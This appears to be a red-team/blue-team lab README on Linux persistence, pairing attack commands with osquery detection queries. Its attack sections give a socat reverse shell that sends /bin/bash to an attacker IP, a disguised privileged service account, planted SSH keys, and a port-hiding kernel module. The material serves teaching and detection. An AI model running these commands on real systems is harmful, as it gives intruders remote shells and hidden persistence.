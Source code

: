 # Profile Files [~/.bashrc; ~/.profile]

## Attack
```c
# Attacker
socat -d -d OPENSSL-LISTEN:1337,cert=cert.pem,verify=0,fork STDOUT

# Victim
socat OPENSSL:<IP_ADDRESS>:1337,verify=0 EXEC:/bin/bash&
```

## Detection
```c
# Victim

## Simple
netstat -a | grep 1337

## Osquery
SELECT * FROM process_open_sockets WHERE remote_port=1337;
```


# Creating User Account

## Attack
```c
# Victim

## Service Account with Bash shell
sudo useradd -r -s /usr/bin/bash -G 27 ec2-aws-sync
```

## Detection
```c
# Victim

## Simple
cat /etc/passwd
cat auth.log | grep ec2-aws

## Osquery 1 [Get all users with uid < 1000]
SELECT * FROM users WHERE uid < 1000;

## Osquery 2 [Get users with login shells]
SELECT uid, username, directory, shell FROM users WHERE shell != "/usr/sbin/nologin";

```

# SSH Authorized Keys

## Attack
```c
# Attacker

## Generate SSH keypair on C2 and copy id_rsa.pub to Victim machine's ~/.ssh/authorized_keys
ssh-keygen

## SSH into Victim
ssh ubuntu@<IP_ADDRESS>
```

## Detection
```c
# Victim

## Osquery
SELECT authorized_keys.* FROM users JOIN authorized_keys USING(uid);
```

# Cron Jobs

## Attack
```c
# Attacker
socat -d -d OPENSSL-LISTEN:1337,cert=cert.pem,verify=0,fork STDOUT

# Victim
Run crontab -e and uncomment cronjob
```

## Detection
```c
# Victim

## Simple
crontab -l

## Osquery [Doesn't work properly in our demo scenario]
SELECT * FROM crontab;
```

# Systemd Unit Files

## Attack
```c
# Attacker
socat -d -d TCP4-LISTEN:1337 STDOUT

# Victim
sudo systemctl start revshell.service
```

## Detection
```c
# Victim

## osquery
SELECT id, description, fragment_path, md5 FROM systemd_units JOIN hash ON (hash.path = systemd_units.fragment_path) WHERE id LIKE "%service";
```

# Kernel Modules

## Attack
```C
# Victim

## Compile & insert the Kernel Module
cd /home/ubuntu/Documents/kernelmodules/hidingports
make
sudo insmod shellcode.ko

## Check port in Osquery
SELECT * FROM process_open_sockets WHERE remote_port=1337;

## Remove Kernel Module & re-check port 
sudo rmmod shellcode
SELECT * FROM process_open_sockets WHERE remote_port=1337;
```

# Shared Libraries 
```c
# Victim

## Show shared libraries
ldd /bin/cat
ldd /bin/bash
```

